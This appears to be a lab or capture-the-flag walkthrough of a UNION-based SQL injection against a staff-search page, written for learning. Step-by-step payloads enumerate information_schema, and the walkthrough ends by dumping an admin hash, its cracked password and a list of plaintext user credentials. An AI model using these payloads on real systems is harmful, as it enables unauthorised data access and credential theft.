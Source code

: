 SQLi

What we are exploring:

![7079d0d96713de3e7edd4ba389866229.png](../../_resources/18b4269b74584646a3c791cb5a53dbb1.png)

How does it behave when searching for 'Tom':

![b16f912c308148612a276488122417ee.png](../../_resources/c69dbe5bcc0e441496cc0430698b8cb7.png)

Trying `Tom' OR '1' = '1` returns nothing

Trying a commentary: `Tom' -- -` returns the result normally, so we identified it is vulnerable to SQLi. This is the query we will be developing from.

So now, we need to define some stuff:

**1\. What we think the query is:**  
`SELECT * FROM USERS WHERE FIRST_NAME = 'userinput'-- -`  
**2\. What we want to do:** Explore UNION queries to gather data.

**3\. What do we need to do UNION:** Understand the * from the first query. Because UNION only works when the query is balanced in a sense that you need both the primary and the subquery to parse the same number of 'fields'

We already have a pretty good indicator to how many fields that * is representing, since the result returns 5 different values:

ID  
Name  
Position  
Phone  
Email

So this is at least 5 fields. To make sure this is the right answer, we can simply UNION SELECT like this:

```
Tom' UNION SELECT 1,2,3,4,5-- -
```

You need to remember that the UNION SELECT is a subquery and it needs to respect the field number of the primary query.

When trying that query though, it returns nothing, this means that it actually don't have 5 fields. What we can do to discover how many are there, we can basically start from 1 field and increase the value each query until it returns correctly.

```
Tom' UNION SELECT 1-- -
Tom' UNION SELECT 1,2-- -
Tom' UNION SELECT 1,2,3-- -
...
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

We can put that through a proxy (I'm using OWASPZAP, but you can use BURP). Or put that direct in the browser. Ill use the browser as example because its better to visualize and explain, but you should be doing all this inside your proxy.

When querying with 6 fields:

```
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

This is what we see:

![b127763b7f83f8b1a0e9c19d4023fbde.png](../../_resources/54f6d4677b694bc0901a247e2585031a.png)

So there are actually 6 fields, the Name field can be divided in FIRST\_NAME and LAST\_NAME

So the query becomes:

```
SELECT ID, FIRST_NAME, LAST_NAME, POSITION, PHONE, MAIL FROM USERS WHERE FIRST_NAME = 'userinput'-- -
```

Now that we know how many fields there are, we can start gathering data, for example, which database we are in right now. Since the UNION subquery is already working, we can simply replace one of the 6 fields to something we want to:

```
Tom' UNION SELECT database(),2,3,4,5,6-- -
```

![4fde13e1326406c65003e00e261f3ddf.png](../../_resources/6c36787b99ae437588beba86afe2eb81.png)

So now we know that the database is Staff.

Now we can request information from the main 3 tables from the information_schema database, which is like the metadata.

schema\_name inside INFORMATION\_SCHEMA.SCHEMATA = Stores database names  
INFORMATION_SCHEMA.TABLES = Stores tables names  
INFORMATION_SCHEMA.COLUMNS = Stores columns names

To gather database names, for example, we can:

```
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata-- -
```

Which returns the current database name, however, we can use the LIMIT function to discover the other databases names:

```
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 1,1-- -
which returns:
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 2,1-- -
Which returns:
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 3,1-- -
Which returns:
ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>					
```

When it stops returning data, you know you verified all possible values.

Other way to gather this information is to use group_concat, which puts every value in a single line:

```
Tom' UNION SELECT group_concat(SCHEMA_NAME),2,3,4,5,6 FROM information_schema.schemata-- -
Which returns:
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>	
```

**From now on, I'll be ommiting part of the output, which is basically the elements seem in the replies above, and formatting for a better understanding.**

Since we discovered all the existent databases, now we need to discover the tables. Lets start with the staff db:

```
Tom' UNION SELECT group_concat(TABLE_NAME),2,3,4,5,6 FROM information_schema.tables where table_schema = "Staff"-- -
Which returns:
StaffDetails
Users				
```

So now we now that there are only two tables inside Staff database: StaffDetails and Users.

Now, lets discover the columns in each of this tables:

```
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "StaffDetails"-- -
Which returns:
id
firstname
lastname
position
phone
email
reg_date
```

Now for Users:

```
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "Users"-- -
Which returns:
UserID
Username
Password
```

Another way to discover where each column is locate is using a second parameter in concat:

```
Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff"-- - 
Which returns:

StaffDetails:id
StaffDetails:firstname
StaffDetails:lastname
StaffDetails:position
StaffDetails:phone
StaffDetails:email
StaffDetails:reg_date
Users:UserID
Users:Username
Users:Password
```

Now, since we already discoverd the structure of the Staff table, we can do the same to the database users:

```
search=Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "users"-- - 
Which returns:

UserDetails:id
UserDetails:firstname
UserDetails:lastname
UserDetails:username
UserDetails:password
UserDetails:reg_date
```


After all this work, we can start analyzing the database and then gather information we consider useful. We have two different sets of username and passwords, one from Staff.Users and other from users.UserDetails

```
Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- - 
Which returns:
admin:856f5de590ef37314e7c3bdf6f8a66dc

after brute-forcing it:
admin:transorbital1
```

```
search=Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM users.UserDetails -- - 
Which returns:
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```



